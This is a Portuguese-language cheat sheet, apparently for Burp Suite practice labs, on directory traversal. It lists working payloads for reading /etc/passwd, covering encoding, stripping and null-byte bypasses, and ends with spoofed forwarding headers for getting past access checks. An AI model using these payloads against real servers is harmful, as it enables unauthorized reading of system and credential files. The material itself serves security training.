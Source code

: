 # Directory Traversal


Probabilidade: $${\color{red}alta}$$.

O scanner do Burp provavelmente vai encontrar essa vulnerabilidade, mas de toda forma ela é facilmente identificada.

Em qualquer lugar que esteja lendo arquivos, tente ler `/etc/passwd` ou `/home/carlos/secret`. Provavelmente algum bypass será necessário.

Dê uma olhada no source code para ver da onde as imagens estão sendo carregadas. Colocar imagens para serem exibidas no Filtro do histórico do Burp também ajuda.

![image](https://github.com/user-attachments/assets/6d15780a-66b2-4e7f-babd-4835b8788c3b)

<br>

## Laboratórios

**File Path Traversal, Traversal Sequences Blocked with Absolute Path Bypass**
```
/image?filename=/etc/passwd
```

<br>
<br>

File Path Traversal, Traversal Sequences Stripped Non-Recursively
```
GET /image?filename=....//....//....//etc//passwd

OU

/image?filename=..././..././..././etc/passwd
```

<br>
<br>

**File Path Traversal, Traversal Sequences Stripped with Superfluous URL-Decode**

Encode o payload em URL duas vezes.
```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34
```

<br>
<br>

**File Path Traversal, Validation of Start of Path**

```
/image?filename=/var/www/images/../../../../etc/passwd
```

<br>
<br>

**File Path Traversal, Validation of File Extension with Null Byte Bypass**
```
../../../../../../etc/passwd%00.jpg
```

<br>

### Outros

**Path Traversal Auth**

Adicionar alguns headers na requisição pode ajudar a bypassar restrições em requisições vulneráveis a Directory Traversal.
```
X-Custom-IP-Authorization: 127.0.0.1
X-Forwarded-For: localhost
X-Forward-For: localhost
X-Remote-IP: localhost
X-Client-IP: localhost
X-Real-IP: localhost
X-Originating-IP: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
```
